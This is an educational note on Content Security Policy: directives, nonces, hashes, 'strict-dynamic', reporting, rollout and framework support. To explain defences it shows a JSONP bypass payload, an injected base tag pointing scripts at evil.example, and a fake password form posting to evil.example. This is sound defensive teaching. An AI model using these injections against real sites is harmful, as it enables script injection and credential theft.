










# Content Security Policy (CSP)

> **Date:** 2026-11-06 · **Last updated:** 2026-11-09
> **Category:** Frontend System Design
> **Sub-Topic:** Security / Browser-Enforced Policies
> **Level:** Intermediate · **Reading time:** ~32 min
> **Informs:** security headers at the edge/server, nonce vs hash strategy per rendering mode (SSR vs static/CDN), HTML cacheability, third-party script and tag-manager policy, CSS-in-JS and inline-style choices, Trusted Types rollout, clickjacking protection (`frame-ancestors`), violation reporting pipeline

> **Pre-requisite:** [XSS Prevention (Reflected, Stored, DOM)](./xss-prevention-reflected-stored-dom.md) (what CSP is mitigating) and [CORS & Same-Origin Policy](../01-web-fundamentals/cors-and-same-origin-policy.md) (origins and cross-origin loads).
> This note explains **how a response header tells the browser exactly which code and resources the page may load**, and how to deploy a strict policy without breaking production.

**Previous:** [XSS Prevention (Reflected, Stored, DOM)](./xss-prevention-reflected-stored-dom.md) · **Next:** [CSRF Protection](./csrf-protection.md)

---

## Table of Contents

1. [ELI5 — Simple Explanation](#eli5--simple-explanation)
2. [Section 1: What CSP Is (and Is Not)](#section-1-what-csp-is-and-is-not)
3. [Section 2: Delivering a Policy — Header, Meta, Report-Only](#section-2-delivering-a-policy--header-meta-report-only)
4. [Section 3: Directives and the Fallback Chain](#section-3-directives-and-the-fallback-chain)
5. [Section 4: Source Expressions](#section-4-source-expressions)
6. [Section 5: Why Allowlist Policies Fail](#section-5-why-allowlist-policies-fail)
7. [Section 6: Strict CSP with Nonces](#section-6-strict-csp-with-nonces)
8. [Section 7: Strict CSP with Hashes (Static Sites)](#section-7-strict-csp-with-hashes-static-sites)
9. [Section 8: `'strict-dynamic'` — Trust Propagation](#section-8-strict-dynamic--trust-propagation)
10. [Section 9: Styles, Eval and WebAssembly](#section-9-styles-eval-and-webassembly)
11. [Section 10: Non-Script Protections](#section-10-non-script-protections)
12. [Section 11: Violation Reporting](#section-11-violation-reporting)
13. [Section 12: Rolling Out CSP Safely](#section-12-rolling-out-csp-safely)
14. [Framework Integration](#framework-integration)
15. [System Design Angle](#system-design-angle)
16. [Real-World Examples](#real-world-examples)
17. [Key Points Summary](#key-points-summary)
18. [Test Your Understanding (with answers)](#test-your-understanding)
19. [Cheat Sheet](#cheat-sheet)
20. [References & Further Reading](#references--further-reading)

---

## ELI5 — Simple Explanation

Think of a **concert venue with a guest list**.

- Without CSP, **anyone who gets inside the building can go on stage** and perform — including someone who sneaked in through a broken window (an XSS bug).
- CSP is the **security guard at the stage door** holding a list from the organiser: *"Only performers wearing tonight's wristband (a nonce) may go on stage. Only deliveries from these suppliers (allowed sources) may come in. Nobody may put up their own posters (inline scripts)."*
- Tonight's wristband colour is **chosen fresh every night** (a new nonce per response), so a wristband copied from yesterday is useless.
- A performer with a wristband may **bring their own band members** on stage (`'strict-dynamic'`) — the guard trusts the performer's choices.
- **Report-only mode** is the guard writing down who *would* have been stopped, without stopping anyone — a rehearsal before the real show.

> **One-line takeaway: CSP is a browser-enforced allow-list for what a page may execute and load. A strict, nonce- or hash-based CSP turns most XSS bugs from "attacker runs code" into "blocked and reported" — but it's a second layer, not a substitute for output encoding.**

---

## Core Concept — Step by Step

### Section 1: What CSP Is (and Is Not)

**Content Security Policy** is a declarative policy, delivered with a document (or worker), that the browser enforces for **every** fetch and script execution in that context.



| CSP **does** | CSP **does not** |
|---|---|
| Block injected inline `<script>`, `onclick=` handlers and `javascript:` URLs (with a strict policy) | Fix the injection bug — attacker HTML (fake forms, misleading text) can still render |
| Restrict where scripts, styles, images, fonts, frames and `fetch()` targets come from | Stop data-only attacks (e.g. an injected `` used for tracking if `img-src` is broad) |
| Restrict who may frame your page (`frame-ancestors`) — clickjacking defence | Protect the **server** — it's enforced by the browser only |
| Restrict `<base>`, form targets and plugins | Prevent CSRF, or abuse of scripts you deliberately allowed (a compromised CDN or a JSONP endpoint on an allowed host) |
| Enforce Trusted Types at DOM XSS sinks | Work in browsers that don't support a directive (they ignore it) |

> CSP is **defence in depth**. The XSS bug still exists; CSP decides whether it can execute code. See [XSS Prevention](./xss-prevention-reflected-stored-dom.md) for the primary fixes.

---

### Section 2: Delivering a Policy — Header, Meta, Report-Only

**1. Response header (preferred):**
```http
Content-Security-Policy: script-src 'nonce-r4nd0m' 'strict-dynamic'; object-src 'none'; base-uri 'none'
```

**2. `<meta>` element** — useful when you can't set headers (some static hosts, hybrid mobile apps):
```html
<meta http-equiv="Content-Security-Policy" content="script-src 'sha256-...' 'strict-dynamic'; object-src 'none'; base-uri 'none'">
```
Limits of `<meta>`: it only applies to content **after** it (put it first in `<head>`), and **`frame-ancestors`, `sandbox` and reporting directives are ignored** there.

**3. Report-only header** — evaluate without blocking:
```http
Content-Security-Policy-Report-Only: script-src 'nonce-r4nd0m' 'strict-dynamic'; object-src 'none'; base-uri 'none'; report-to csp
```

**Multiple policies combine by intersection:** if a response has two enforced policies (two headers, or a header + meta), a resource must satisfy **both**. You can only make things *stricter* by adding policies — useful for layering a new strict policy next to a legacy one.



**Workers** get their own policy from the worker script's response (a dedicated worker created from a `blob:` URL inherits the creator's). Iframes are separate documents with their own policies — the parent's CSP controls only **whether** the frame may be loaded (`frame-src`), not what runs inside it.

---

### Section 3: Directives and the Fallback Chain

**Fetch directives** control resource loading and **fall back** to more general ones when absent:



| Directive | Controls | Typical strict value |
|---|---|---|
| `default-src` | Fallback for fetch directives | `'self'` (or `'none'` for APIs) |
| `script-src` | All script execution and loading | `'nonce-…' 'strict-dynamic'` |
| `style-src` | Stylesheets, `<style>`, `style=` | `'self' 'nonce-…'` (often `'unsafe-inline'` in practice — Section 9) |
| `img-src` | Images, favicons | `'self' data: https://img.cdn.example` |
| `connect-src` | `fetch`, XHR, WebSocket, EventSource, `sendBeacon` | `'self' https://api.example wss://rt.example` |
| `font-src` | `@font-face` | `'self'` |
| `frame-src` | Iframes you embed | `https://www.youtube-nocookie.com` |
| `worker-src` | Workers, service workers | `'self'` |
| `object-src` | `<object>`, `<embed>` | `'none'` |
| `media-src`, `manifest-src` | Audio/video, web app manifest | `'self'` |

**Directives that do NOT fall back to `default-src`** (you must set them explicitly):

| Directive | Purpose | Recommended |
|---|---|---|
| `base-uri` | Which URLs `<base href>` may use | `'none'` (or `'self'`) |
| `form-action` | Where forms may submit | `'self'` |
| `frame-ancestors` | Who may embed **this page** (replaces `X-Frame-Options`) | `'none'` or `'self'` |
| `sandbox` | Applies iframe-style sandbox flags to the page | Use for user-content responses |
| `upgrade-insecure-requests` | Rewrite `http:` subresource URLs to `https:` | Useful during HTTPS migrations |
| `require-trusted-types-for` / `trusted-types` | Enforce [Trusted Types](./xss-prevention-reflected-stored-dom.md#section-9-trusted-types--making-dom-xss-a-compile-time-problem) | `'script'` / your policy names |
| `report-to` / `report-uri` | Where violations are reported | Both, for coverage (Section 11) |

**Deprecated or removed:** `block-all-mixed-content` (browsers now upgrade or block mixed content by default), `prefetch-src`, `plugin-types`, `navigate-to` (removed from the spec), `report-uri` (deprecated in favour of `report-to`, but still the only option in some browsers).

---

### Section 4: Source Expressions

| Expression | Matches | Notes |
|---|---|---|
| `'self'` | The page's own **origin** (scheme + host + port) | Not subdomains |
| `'none'` | Nothing | Must be the only value in that directive |
| `https://cdn.example.com` | That host (and path prefix, if given) | `*.example.com` for subdomains; paths are ignored after a redirect |
| `https:` / `data:` / `blob:` | Any URL with that scheme | `data:` and `https:` in `script-src` defeat the policy |
| `'nonce-<base64>'` | Elements with a matching `nonce` attribute | Per response, unpredictable |
| `'sha256-<base64>'` (also 384, 512) | Inline content whose hash matches; external scripts whose SRI `integrity` matches (CSP3) | Exact bytes — whitespace matters |
| `'strict-dynamic'` | Scripts loaded **by** already-trusted scripts | Ignores host allowlists and `'self'` (Section 8) |
| `'unsafe-inline'` | All inline scripts/styles/handlers | **Ignored** for scripts when a nonce or hash is present |
| `'unsafe-eval'` | `eval`, `new Function`, `setTimeout('string')` | Avoid |
| `'wasm-unsafe-eval'` | WebAssembly compilation only | Safer than `'unsafe-eval'` for WASM apps |
| `'unsafe-hashes'` | Lets hashes match inline event handlers / `style=` attributes | Migration aid for legacy markup |
| `'report-sample'` | Include the first characters of blocked code in reports | Helps triage |
| `'inline-speculation-rules'` | Inline `<script type="speculationrules">` | Chromium-only at the time of writing |
| `'trusted-types-eval'` | Allows `eval` only with Trusted Types enforced | Newer (MDN lists recent Chromium, Firefox, Safari releases) |

**The "backward-compatible" trick:** browsers that understand nonces/hashes **ignore** `'unsafe-inline'`; browsers that understand `'strict-dynamic'` **ignore** `https:` and host allowlists. So adding `'unsafe-inline' https:` to a strict `script-src` changes nothing in modern browsers but keeps very old ones from breaking.

---

### Section 5: Why Allowlist Policies Fail

The "classic" CSP lists trusted hosts:

```http
Content-Security-Policy: script-src 'self' https://www.google-analytics.com https://cdnjs.cloudflare.com https://ajax.googleapis.com
```

It looks strict, but it's usually **bypassable**:

| Bypass | How |
|---|---|
| **JSONP endpoints** on an allowed host | `<script src="https://allowed.example/api?callback=alert(1)//">` — the endpoint returns attacker-chosen JS |
| **Script gadgets in old libraries** on an allowed CDN | Load an old AngularJS from the allowed CDN, then inject `{{ }}` template expressions into the page |
| **User-uploaded files** under `'self'` | Upload a `.js` file (or a file served with a JS-compatible type) and reference it |
| **Open redirects** on allowed hosts | Path restrictions are ignored after a redirect |
| **Huge allowlists** | Every whitelisted host is attack surface; tag managers grow them constantly |

Google's 2016 research paper *"CSP Is Dead, Long Live CSP!"* analysed real-world policies and found that the large majority of allowlist-based policies offered no effective XSS protection, which led to the **nonce + `'strict-dynamic'`** approach now recommended by web.dev and OWASP.

> Host allowlists are still useful for **non-script** directives (`img-src`, `connect-src`, `frame-src`) to limit data exfiltration and embedding. For **scripts**, use nonces or hashes.

---

### Section 6: Strict CSP with Nonces

A **nonce** ("number used once") is a random value generated **per response**, put in the header and on every legitimate `<script>`. Injected scripts don't know it, so they're blocked.



**Recommended strict policy** (from web.dev's strict CSP guidance):

```http
Content-Security-Policy:
  script-src 'nonce-{RANDOM}' 'strict-dynamic' https: 'unsafe-inline';
  object-src 'none';
  base-uri 'none';
  report-to csp-endpoint
```

**Nonce rules:**

| Rule | Why |
|---|---|
| **Cryptographically random**, at least 128 bits, base64 | Must be unguessable |
| **New for every response** | A reused nonce is a static password the attacker can read from any copy of the page |
| **Never cache nonce'd HTML in shared caches** (or rewrite the nonce at the edge per response) | A CDN-cached page serves the same nonce to everyone |
| Only on scripts **you** render — never copy a nonce onto markup that includes user content | Otherwise the injection inherits trust |
| Don't expose it in URLs or logs | Same reason |

**Nonce hiding:** browsers hide the `nonce` content attribute from the DOM after parsing (`script.getAttribute('nonce')` returns `''`; the `script.nonce` IDL property still works) so CSS attribute selectors can't exfiltrate it.

**What a strict `script-src` blocks:** inline scripts without the nonce, inline event handler attributes (`onclick="..."`), `javascript:` URLs, and (without `'unsafe-eval'`) string evaluation. Framework event handlers like React's `onClick` or Vue's `@click` are attached from JavaScript, **not** inline attributes, so they're unaffected.

---

### Section 7: Strict CSP with Hashes (Static Sites)

If HTML is **static** (SPA on S3/CDN, SSG output), you can't generate a nonce per response without an edge function. Use **hashes** instead: the SHA-256 of each inline script's exact content.



Two hash patterns:
1. **Hash the inline loader** and let `'strict-dynamic'` trust what it loads:
   ```html
   <script>
     // its sha256 goes in the header; strict-dynamic trusts the scripts it creates
     for (const src of ['/assets/index-3f9a1c.js']) {
       const s = document.createElement('script');
       s.src = src; s.type = 'module';
       document.head.appendChild(s);
     }
   </script>
   ```
2. **Hash external scripts via SRI** (CSP Level 3): a `<script src integrity="sha384-…">` can match a hash source in `script-src`. MDN's compatibility data shows support in current Chromium, Firefox (116+) and Safari (15.6+); check before relying on it.

```bash
# Compute a CSP hash for an inline script. The hash covers the exact bytes between <script> and </script>,
# so loader.js must hold exactly that text ("$(cat …)" would strip trailing newlines and break the match)
openssl dgst -sha256 -binary loader.js | openssl base64
```

> Watch out: **any** change to the inline script (even whitespace from a minifier) changes the hash. Generate hashes in the build (SvelteKit, Angular's `autoCsp` and several plugins do this).

---

### Section 8: `'strict-dynamic'` — Trust Propagation

Modern apps load code dynamically: bundler chunks, `import()`, tag managers, analytics. Listing every URL is impractical. `'strict-dynamic'` says: **"scripts I already trust (by nonce or hash) may load more scripts."**



| With `'strict-dynamic'` | Effect |
|---|---|
| Non-parser-inserted scripts (`createElement` + `append`, `import()`) created by trusted scripts | Allowed, whatever their URL |
| Parser-inserted scripts (HTML markup, `document.write`, `innerHTML` that contains a script tag) without a nonce or hash | Blocked |
| Host sources, `'self'`, `https:` in the same directive | Ignored (that's what makes the backward-compatible fallback work) |

**Trade-off:** you're trusting your trusted scripts' **judgement**. If a trusted script does `document.createElement('script').src = userInput`, the attacker wins. That's why Trusted Types (`TrustedScriptURL` at `script.src`) pairs well with strict CSP.

---

### Section 9: Styles, Eval and WebAssembly

**Styles:** CSS injection is lower severity than script injection, but not harmless — attribute selectors with `background: url(...)` can leak data, and injected styles can redress the UI. Most teams end up with one of:

| Policy | Works with | Notes |
|---|---|---|
| `style-src 'self'` | Static CSS files, CSS Modules, Tailwind, zero-runtime CSS-in-JS (vanilla-extract, Linaria, Panda) | Strictest; inline `style=` attributes blocked unless `style-src-attr` allows them |
| `style-src 'self' 'nonce-…'` | Runtime CSS-in-JS that supports nonces (Emotion `cache` with `nonce`, styled-components via `__webpack_nonce__` or a nonce prop) | Needs per-request nonce plumbing |
| `style-src 'self' 'unsafe-inline'` | Everything, including libraries setting `style=` attributes | Common pragmatic choice; accept the CSS-injection risk |

> Setting `element.style.color = 'red'` from JavaScript (CSSOM) is **not** blocked by `style-src`; parsing a `style="..."` attribute from markup **is**. React's `style={{...}}` is applied through the CSSOM on the client, but **server-rendered** HTML contains real `style="..."` attributes, which a strict policy blocks — SSR apps that use inline style props usually need `style-src-attr 'unsafe-inline'`.

**Eval:** `'unsafe-eval'` re-enables `eval`, `new Function` and string timers — a direct path from string injection to code execution. Common reasons it gets requested, and the fix:

| Needs eval | Modern alternative |
|---|---|
| Vue full build compiling templates at runtime | Use the runtime-only build with pre-compiled templates (the default in Vite/Vue CLI setups) |
| AngularJS (end-of-life) | Migrate; Angular's AOT compiler doesn't need eval |
| Some JSON-schema validators / templating libs that generate code | Precompile at build time |
| Dev-mode source maps / HMR (e.g. webpack `eval` devtool) | Dev only — never ship `'unsafe-eval'` to production because of it |

**WebAssembly:** use `'wasm-unsafe-eval'` (supported in Chromium 97+, Firefox 102+, Safari 16+ per MDN), which allows WASM compilation **without** enabling JavaScript `eval`.

---

### Section 10: Non-Script Protections



- **`frame-ancestors 'none'`** (or `'self'`, or a list of partner origins) — prevents your page being framed for clickjacking. Prefer it over `X-Frame-Options` (which only supports `DENY`/`SAMEORIGIN`); sending both is fine for old browsers.
- **`base-uri 'none'`** — an injected `<base href="https://evil.example/">` would make every **relative** script URL (even nonce'd ones) load from the attacker.
- **`form-action 'self'`** — injected `<form action="https://evil.example">` with a fake "session expired, enter password" form is HTML injection that `script-src` doesn't stop.
- **Tight `connect-src` / `img-src`** — limit where a successful injection can send stolen data (not a complete exfiltration defence: navigations, links and DNS prefetch can leak too).
- **`sandbox`** on user-content responses — the document gets an opaque origin and no script execution unless you add `allow-scripts`.

---

### Section 11: Violation Reporting



```http
Reporting-Endpoints: csp-endpoint="https://reports.example.com/csp"
Content-Security-Policy: script-src 'nonce-Q2x9' 'strict-dynamic'; object-src 'none'; base-uri 'none'; report-to csp-endpoint; report-uri https://reports.example.com/csp
```

- **`report-to`** + the **`Reporting-Endpoints`** header is the modern mechanism (Reporting API). MDN's data shows support in Chromium and Safari, and Firefox only in recent versions — so **send `report-uri` as well**; browsers that support `report-to` ignore `report-uri` when both are present.
- The two formats differ: `report-uri` posts `{"csp-report": {...}}` with `Content-Type: application/csp-report`; `report-to` posts an **array** of reports with `Content-Type: application/reports+json` and `type: "csp-violation"`. Your collector must accept both.
- **Expect noise:** browser extensions, injected ISP/antivirus scripts and bots generate violations. Filter by `source-file`/`blockedURL` schemes like `chrome-extension:` and `moz-extension:`, and aggregate before alerting.
- Reports can contain URLs with tokens or PII — treat the collector as sensitive, strip query strings, and rate-limit it.
- In-page: `document.addEventListener('securitypolicyviolation', e => …)` lets you send violations to your existing telemetry.

---

### Section 12: Rolling Out CSP Safely



Practical sequence:
1. **Inventory:** inline `<script>` blocks, `on*=` attributes, `javascript:` links, `eval` users, third-party tags, CSS-in-JS.
2. **Refactor:** move inline handlers to `addEventListener`; replace `javascript:` links with buttons; add nonce support to SSR and CSS-in-JS.
3. **Report-only** with the target strict policy — leave it for at least one full release cycle and real traffic, including marketing pages with tag managers.
4. **Enforce**, keeping the report-only header alongside for the *next* tightening step (e.g. `require-trusted-types-for 'script'`).
5. **Guard in CI:** an integration test that loads key pages with the enforced header and fails on `securitypolicyviolation` events.

---

## Framework Integration

| Stack | Nonce / hash support |
|---|---|
| **Next.js (App Router)** | Generate a nonce in middleware (renamed `proxy` in Next.js 16), set the CSP header and pass the nonce via a request header; Next applies it to its own scripts. Nonces require **dynamic rendering** — statically generated pages can't have per-request nonces. See the Next.js CSP guide |
| **React Router / Remix** | Pass `nonce` to `<Scripts nonce={nonce} />` and `<ScrollRestoration nonce={nonce} />`; set the header in the server entry |
| **Vite (any framework)** | `html.cspNonce` config adds a nonce placeholder to generated tags; replace it per response on the server |
| **webpack** | Set `__webpack_nonce__` at runtime so dynamically injected chunks/styles carry the nonce |
| **Angular** | `ngCspNonce` attribute on the root element or the `CSP_NONCE` injection token for component styles; recent versions also offer an `autoCsp` build option that generates hash-based CSP for inline scripts; built-in Trusted Types support |
| **Vue / Nuxt** | Vue SPA: runtime-only build (no eval) + server-set header; Nuxt: commonly via the community `nuxt-security` module (nonces, SRI, hashes) |
